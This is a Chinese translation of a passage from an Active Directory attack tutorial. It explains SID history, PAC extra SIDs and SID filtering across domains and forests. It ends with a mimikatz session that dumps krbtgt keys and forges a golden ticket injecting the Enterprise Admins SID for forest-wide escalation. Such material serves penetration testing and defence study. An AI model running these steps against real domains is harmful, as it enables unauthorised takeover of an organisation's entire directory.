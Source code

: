  [PAC](https://zer1t0.gitlab.io/posts/attacking_ad/#pac)有一个字段包含额外的SID，用于识别特殊实体，此字段通常用于包括存储在SIDHistory属性中的那些SID

SID历史记录用于迁移目的。当用户从一个域迁移到另一个域时，将重置用户的权限，创建新SID，将用户添加到新组中，等等。但是，用户在旧域中所属组中的SID存储在SID History属性中

然后，当用户想要访问旧域中的资源时，他们的历史SID将添加到PAC extra SID字段中。通过这种方式，旧域可以查看这些SID，并授予用户旧权限，允许其访问旧域资源

但是，根据[SID filtering](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/)策略，可以省略额外的SID（而不是复制到ST PAC中）。通常，**域允许来自森林中其他域的SID（默认情况下），**但根据[ForestSpecific](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280)规则**丢弃来自外部林的额外SID**，因为森林是Active Directory的安全边界

此外，**同一森林的域能被隔离**，从而通过应用 [QuarantinedWithinForest](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280)策略删除额外的SID

相反，[SID history can be enabled ](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/#sid-filtering-relaxation)在不同林的域之间的信任中，但有一些限制。允许具有目标（信任）森林的SID且 [RID](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/f2ef15b6-1e9b-48b5-bf0b-019f061d41c8#gt_df3d0b61-56cd-4dac-9402-982f1fedc41c) 高于1000的组。因此，将过滤RID低于1000的管理组（如“[Domain Admins](https://adsecurity.org/?p=3658)”（RID=512）），但属于这些管理组的RID较高的组（也将成为管理组），例如Exchange管理组不会。

然后，如果编辑了SID历史记录，则可以注入其他域的管理权限。例如，如果在用户SID历史记录中注入 [Enterprise Admins](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc756898(v=ws.10)) SID，则该用户可以在整个林中拥有管理权限。

 SID历史记录 [can be edited directly](https://adsecurity.org/?p=1772)，用[mimikatz misc::addsid](https://book.hacktricks.xyz/windows/stealing-credentials/credentials-mimikatz#sid)能直接在AD数据库

但像之前说的，SID历史记录会被复制到TGT的PAC中，因此如果我们能伪造一个黄金票据，就能将我们想要的历史SID直接注入PAC extra SIDs属性中。然后，当我们使用这个“Golder”票证时，它的PAC被复制到域间TGT中，之后，当使用此域间TGT为外部域中的服务获取ST时，如果此域位于同一林中，则可以将特权SID复制到ST PAC中，从而授予我们最初在Golder票证中注入的特权

一个有趣的SID是“[Enterprise Admins](https://adsecurity.org/?p=3658)”，该组仅存在于林的根域中，并且默认情况下作为林中所有域的所有“域管理员”组的成员添加。

实际上，如果渗透域的根林并创建一个包含“Enterprise Admins”组（RID为519，默认情况下包含在impacket和mimikatz中）的黄金票据，则不需要创建具有额外SID的Golder票据，因为您已经拥有控制所有林的权限，即使是隔离的域（因为没有额外的SID进行过滤）。只有在您渗透了非根域并且希望渗透林的另一个域（过滤额外SID的隔离域除外）时，才需要向额外SID添加“企业管理员”。

```powershell
###Pass-The-Ticket with Enterprise Admins in extra SIDs
PS C:\> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::krbtgt

Current krbtgt: 5 credentials
         * rc4_hmac_nt       : 1bf960a6af7703f75b1a2b04787c85fb
         * rc4_hmac_old      : 1bf960a6af7703f75b1a2b04787c85fb
         * rc4_md4           : 1bf960a6af7703f75b1a2b04787c85fb
         * aes256_hmac       : 8603210037f738c50120dbe0f2259466fd4fdd1d58ec0cf9ace34eb990c705a3
         * aes128_hmac       : 204be93d3c18326bf0e6675eb0a32202

mimikatz # kerberos::golden /admin:Administrator /domain:it.poke.mon /sid:S-1-5-21-1913835218-2813970975-3434927454 /sids:S-1-5-21-4285720809-372211516-2297741651-519 /aes256:8603210037f738c50120dbe0f2259466fd4fdd1d58ec0cf9ace34eb990c705a3 /ptt /groups:512,520,572
User      : Administrator
Domain    : it.poke.mon (IT)
SID       : S-1-5-21-1913835218-2813970975-3434927454
User Id   : 500
Groups Id : *512 520 572
Extra SIDs: S-1-5-21-4285720809-372211516-2297741651-519 ;
ServiceKey: 8603210037f738c50120dbe0f2259466fd4fdd1d58ec0cf9ace34eb990c705a3 - aes256_hmac
Lifetime  : 5/13/2021 9:36:28 AM ; 5/11/2031 9:36:28 AM ; 5/11/2031 9:36:28 AM
-> Ticket : ** Pass The Ticket **
```
